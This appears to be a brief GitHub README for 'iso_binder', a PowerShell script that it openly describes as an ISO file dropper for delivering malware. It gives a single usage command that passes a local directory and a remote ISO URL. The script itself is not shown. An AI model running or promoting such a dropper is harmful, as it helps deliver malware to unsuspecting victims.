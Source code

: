# iso_binder
iso_binder iso file drooper for malware drooping 


# USAGE

```powershell
.\iso_binder.ps1 -directoryPath "C:\Path\To\Your\Directory" -urlOfIsoFile "http://example.com/path/to/file.iso"
```
